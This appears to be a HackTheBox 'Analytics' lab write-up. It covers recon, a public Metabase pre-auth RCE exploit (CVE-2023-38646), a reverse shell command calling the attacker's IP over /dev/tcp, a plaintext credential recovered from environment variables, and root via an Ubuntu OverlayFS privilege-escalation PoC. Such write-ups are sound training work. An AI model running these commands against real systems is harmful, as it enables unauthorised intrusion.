



## Reconnaissance

### nmap 

> First, scan the target 

```
nmap -sC -sV -oN analytics_light 10.10.11.233
```


### Web Service 

> Browse the target web service 


> The top page, only Login has reall link


> Try to access it, but the host can't be access correctly


> Edit /etc/hosts, add data.analytical.htb
> I don't have any credential for this site.
> But here is a forget password function


> Check this function, it doesn't have any help.

> Checking the home page in burp 


> Here is a interesting message which mention about credentials.
> Note it first. (But actually it is useless for this machine)


### Gobuster 

```
gobuster dir -u htp://analytics.htb -w /usr/share/wordlists/dirb/common.txt -o analytical.out
```


## Exploit 

> Trying to find exploit code for metabase without any knowledge for version 

```
searchsploit metabase 
```


> Searching by google


> Find a POC in github.
> The description also provide the usage and the necessary information for this POC.

- [(GITHUB)Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

1. setup-token


> So, I need to find out the setup-token.
> I checked the web source code in Home page and filter it by keyword: 'token'
> Here are 2 results.


> Got it. I found it in 2nd one.


> Execute the payload and check how to use
```
python main.py
```

> Then I execute an easy command 

```
python main.py -u http://data.analytical.htb -t <setup-token> -c 'whoami'
```


> The result show the Payload sent, but I can't view any result. 
> Back to the Github, if I directly send reverse shell, it might work.


> So, I tried the following command 

```
python main.py -u http://data.analytical.htb -t <setup-token> -c "bash -c 'bash -i >& /dev/tcp/10.10.16.59/1337 0>&1'"
```


> Get the reverse shell, but the host name is weird.
> it seems I just get the initial access in container.


> Check the current user 
```
whoami 
id
```


> Check the /etc/passwd to confirm the potential user
> With this result, I confirm there is a user which is my target - metabase


> I also confirm the host information 
```
uname -r
uname -a
```


> Then I move to the target user's (metabase) directory, 
> It's empty.


> But in this directory (/)
> I can really sure I'm in container.
> Here is a hidden directory - .dockerenv
> Besides that, the other interesting directory is metabase.db


> Actually, I start from search about 'how to escape from container' first,
> but with more search result and research, it's not a correct path.

> Checking metabase.db
> Here are 2 files 

1. metabase.db.mv.db
2. metabase.db.trace.db


> Check the content directly, it really is a big database file 
> It's not easy to find the clue in such a big file 


> Then I tried to only check the head of this file. 
> I still can't get anything.


> I tried to filter 'password' in this file 
> Ok, I got a long string, it might be the password for some user ... (I guess.)

```
cat metabase.db.mv.db | grep "password"
```

> I also check the other file.
> It only contain some trace message for database.
> I still can't find anything useful, but it's not a big file at least.



> So, I upload linpeas.sh and execute it.


> Here are some process record which they all  might caused by me. 
> Those command are executed by me few minutes ago.


> The result also show some unexpected files and directories in root 


> And some file which contain the word "password" or "credential"


> The environment variable list.
> Yes, that is the critical part in this time
> I finally find the Credential.


> Find a USER variable - metabase.
> I think it means the docker has a USER and it also is current user.


> Credentials 
```
metalytics / An4lytics_ds20223#
```


> I used above credential to login to the web service.
> It success, but after some enumeration, I still can't find anything useful in this page


## Privilege Escalation 

> Then I also tried to use same credential to login to SSH.
> It success, too.
> And it's not a container environment this time.

```
ssh metalytics@10.10.11.233
```

> After login, I checked the current user 
```
id
whoami
```


> Then I also check sudo permission list.
> As the result, it obviously said I can't run sudo with current user
```
sudo -l
```


> I also list the file which have the SUID permission set 
```
find / -perm -u=s 2>/dev/null
```


> I executed the linpeas again.


> Check environment variable again.
> But nothing interesting in this time.


> Check the crontab 


> Check the Network interface


> Check the active service 


> Find a ldap directory in /etc


> Get user flag


> Then I also check the OS information in this environment.
> Ok, I will record the information this time, since it's the clue about the vulnerability for this challenge
- Linux ubuntu 22.04.2


> Research and find exploit for this OS version 
- [Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=33924)


> I also find a POC in GITHUB

- [(GITHUB)GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)


> Provide execute permission for this shell
```
chmod +x shell.sh
```
> Execute it, yes, I think I'm root now


>Check the current user

```
id
whoami
```

> Get root flag


## Reference 

### Write up / Discussion 

- [(Write up)Analytics | HackTheBox Walkthrough](https://bishalrayy.medium.com/analytics-hackthebox-walkthrough-a9008b2e7a4e)
- [(Write up)HackTheBox : Analytics [Metabase RCE]](https://medium.com/@starlox.riju123/hackthebox-analytics-metabase-rce-bd3421cba76d)
- [(Discussion)Official Analytics Discussion](https://forum.hackthebox.com/t/official-analytics-discussion/299970)
### Metabase

- [(GITHUB)Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/m3m0o/metabase-pre-auth-rce-poc)
- [(GITHUB)CVE-2023-38646 - Metabase Pre-auth RCE](https://github.com/shamo0/CVE-2023-38646-PoC)
- [CVE-2023–38646 — Metabase Pre-Auth RCE](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)
- [Metabase 远程代码执行漏洞(CVE-2023-38646)](https://zhuanlan.zhihu.com/p/647355511)
- [CVE-2023-38646：Metabase远程命令执行漏洞](https://cloud.tencent.com/developer/article/2326776)
- [(NVD)CVE-2023-38646 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)
- [Metabase - Remote Code Execution (CVE-2023-38646)](https://pentest-tools.com/vulnerabilities-exploits/metabase-remote-code-execution_CVE-2023-38646)
### Privilege Escalation 

- [(GITHUB)GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- [Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=33924)
### Linux Command / Tools 

- [Linux 匹配文字 grep 指令用法教學與範例](https://blog.gtwang.org/linux/linux-grep-command-tutorial-examples/)
### Docker Escape 

- [(GITHUB)escaping-from-a-docker-container.md](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/escaping-from-a-docker-container.md)
- [(HackTricks)Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- [(HackTricks)Docker Security](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security)
- [Container Escape 101](https://teamt5.org/tw/posts/container-escape-101/)
- [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
- [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)
- [(ExploitNote)Docker Escape](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/)
###### tags: `HackTheBox`